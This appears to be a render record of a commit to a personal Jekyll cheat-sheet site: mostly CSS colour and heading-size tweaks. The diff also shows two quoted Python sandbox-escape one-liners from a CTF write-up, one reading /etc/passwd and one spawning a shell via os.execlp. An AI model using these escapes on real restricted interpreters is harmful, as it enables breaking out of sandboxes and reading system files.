

Before and after one commit to betaveros/cs, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1920 px of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
formatting/size tweaks

```diff
--- a/_includes/python.html
+++ b/_includes/python.html
@@ -152,7 +152,8 @@ time.sleep(0.5) # 0.5 seconds</pre>
 <pre>[t for t in (1).__class__.__bases__[-1].__subclasses__() if t.__name__ == 'file'][0]('/etc/passwd').read()</pre>
 <p>(from <a href="http://eev.ee/blog/2012/03/24/on-principle/"><cite>On principle</cite> (eevee)</a>)</p>
 <p>Want a shell instead?</p>
-<pre>[x for x in().__class__.__bases__[0].__subclasses__() if x.__name__ == "catch_warnings"][0].__init__.func_globals["linecache"].__dict__["os"].execlp("sh","sh")</pre>
+<pre>[x for x in().__class__.__bases__[0].__subclasses__() if x.__name__ == "catch_warnings"
+][0].__init__.func_globals["linecache"].__dict__["os"].execlp("sh","sh")</pre>
 <p>(from <a href="http://jonathanzong.com/picoctf/2013/05/07/python-eval-5-140">Jonathan Zong's picoCTF 2013 writeup</a>)</p>
 <h3>pygmentize</h3>
 <p>has complicated command line flags:</p>
--- a/_layouts/default.html
+++ b/_layouts/default.html
@@ -11,9 +11,9 @@
 	body {font-family: "Ubuntu Mono", monospace; font-size: 12pt; color: #ccc;}
 	code, pre {
 		font-family: "Ubuntu Mono", monospace;
-		background-color: #030;
-		color: #9f9;
-		border: 1px solid #060;
+		background-color: #002800;
+		color: #afa;
+		border: 1px solid #050;
 		border-radius: 6px;
 		-moz-border-radius: 6px;
 		-webkit-border-radius: 6px;
@@ -38,6 +38,20 @@
 		text-shadow:
 		#888 0 2px 2px, #444 0 4px 4px;
 	}
+	h1, h2 {
+		font-size: 200%;
+		margin-left: -0.5em;
+		padding-left: 0.5em;
+		background-color: #346;
+	}
+	#toc {
+		font-size: 180%;
+	}
+	h3 {
+		margin-left: -0.5em;
+		padding-left: 0.5em;
+		background-color: #224;
+	}
 	.big {font-size: 250%;}
 	a:link, a:visited {color: #cdf; text-shadow: #999 1px 1px 1px;}
 	a:hover {color: #0cc;}
@@ -48,7 +62,7 @@
 	.cg {background-color: #363;}
 	.cb {background-color: #336;}
 	.padded td {padding: 5px;}
-	.toggle {color: #0cc;}
+	.toggle {color: #aef;}
 	td.outside {background-color: #000;}
 	.color { text-align: right; white-space: pre; }
 </style>
--- a/index.html
+++ b/index.html
@@ -4,7 +4,7 @@ layout: default
 <h1 id="top">betaveros's cheat sheet</h1>
 <p>Javascript toggling! Click on headers to open/close sections.</p>
 <p>Omissions and simplifications exist and are deliberate. This is a cheatsheet, mainly for my own use, so it probably seems inadequate in some places and overly detailed in others to anybody else.</p>
-<p>Quick TOC: <a href="#general">General</a> . <a href="#python">Python</a> . <a href="#c">C/C++</a> . <a href="#web">Web</a> . <a href="#haskell">Haskell</a> . <a href="#latex">LaTeX</a> . <a href="#git">Git</a> . <a href="#scala">Scala</a> . <a href="#shell">Shell</a> . <a href="#perl">Perl</a> . <a href="#ascii">ASCII</a> . <a href="#key">Keyboard</a></p>
+<p id="toc">Quick TOC: <a href="#general">General</a> . <a href="#python">Python</a> . <a href="#c">C/C++</a> . <a href="#web">Web</a> . <a href="#haskell">Haskell</a> . <a href="#latex">LaTeX</a> . <a href="#git">Git</a> . <a href="#scala">Scala</a> . <a href="#shell">Shell</a> . <a href="#perl">Perl</a> . <a href="#ascii">ASCII</a> . <a href="#key">Keyboard</a></p>
 <h2 id="general"><span class="toggle" onClick="toggle('generalcont');return false">General</span> <a href="#top">&uArr;</a></h2>
 <div id="generalcont">
 {% include general.html %}
```
